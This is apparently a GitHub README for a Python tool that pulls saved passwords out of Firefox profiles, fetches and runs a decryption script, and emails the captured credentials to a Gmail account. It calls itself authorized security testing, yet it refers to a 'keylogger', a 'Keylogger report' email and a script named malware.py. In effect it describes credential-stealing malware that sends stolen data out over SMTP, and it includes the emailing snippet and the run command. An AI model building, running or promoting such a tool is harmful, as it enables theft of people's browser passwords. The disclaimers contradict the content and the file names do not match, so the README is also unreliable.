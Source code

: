 # Firefox Credentials Extractor

A Python-based security testing tool for extracting and analyzing saved Firefox browser credentials from systems. This utility leverages the [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) library to demonstrate password storage vulnerabilities in Firefox profiles.

> [!WARNING] This tool is designed **exclusively for authorized security testing, educational purposes, and legitimate system administration**. Only use this tool on systems you own or have explicit written permission to test. Unauthorized access to credentials is illegal and may result in severe legal consequences.

----------

## Features

-   **Automated Profile Discovery**: Automatically locates Firefox profile directories across different operating systems
-   **Dynamic Script Retrieval**: Downloads and executes the latest version of `firefox_decrypt.py`
-   **Comprehensive Extraction**: Retrieves all stored login credentials from Firefox password manager
-   **Secure Reporting**: Optional encrypted email delivery of audit results via SMTP

> [!IMPORTANT] When using Gmail SMTP, you must either enable "App Passwords" (recommended) or configure application-specific authentication. Standard Gmail passwords will not work due to security restrictions.

----------

## Prerequisites

> [!NOTE] Ensure you have the following installed before running the tool:

-   **Python 3.7+** (Python 3.8+ recommended for optimal compatibility)
-   **requests** library for HTTP operations
-   **Active internet connection** (required for downloading firefox_decrypt.py)

### Installing Dependencies

```bash
pip install requests
```

> [!TIP] For production environments, consider using a virtual environment:

```bash
python -m venv firefox-auditor-env
source firefox-auditor-env/bin/activate  # On Windows: firefox-auditor-env\Scripts\activate
pip install requests
```

----------

## Configuration


### Email Setup

> [!IMPORTANT]
> Gmail App Password Configuration Required

Before using the keylogger, you must configure Gmail App Passwords:

1. Enable 2-Factor Authentication on your Gmail account
2. Generate an App Password:
   - Go to Google Account settings
   - Security → 2-Step Verification → App passwords
   - Generate a new app password
3. Update the email configuration in `keylogger.py`:

```python
self.send_emails("Keylogger report", email_body, 
                "youremail@gmail.com",           # Sender email
                ["youremail@gmail.com"],         # Recipients list
                "aaaa bbbb cccc dddd")           # App password (16 characters)
```

> [!CAUTION]
> Never commit your actual email credentials to version control. Consider using environment variables for sensitive information.

----------

## Usage

### Basic Operation

```bash
python malware.py
```

## Security Considerations

> [!IMPORTANT] **Legal Compliance**: This tool should only be used in compliance with:
> 
> -   Local and international cybersecurity laws
> -   Organizational security policies
> -   Authorized penetration testing agreements
> -   Educational institution guidelines

----------

## Troubleshooting

### Common Issues

**Firefox Profile Not Found**

-   Ensure Firefox has been run at least once on the target system
-   Check if Firefox is installed in a non-standard location
-   Verify user permissions to access the profile directory

**SMTP Authentication Failures**

-   Confirm App Password is correctly configured for Gmail
-   Verify SMTP settings for non-Gmail providers

**Module Import Errors**

-   Install required dependencies using pip
-   Verify Python version compatibility
-   Check virtual environment activation

> [!NOTE] For additional support, please refer to the [firefox_decrypt documentation](https://github.com/unode/firefox_decrypt) for Firefox-specific issues.

----------

## Disclaimer

> [!CAUTION] The authors and contributors of this tool are not responsible for any misuse or damage caused by this software. Users are solely responsible for ensuring their use of this tool complies with applicable laws and regulations. This tool is provided "as-is" without any warranties or guarantees.


## Author

Developed by **Marco Becerra**

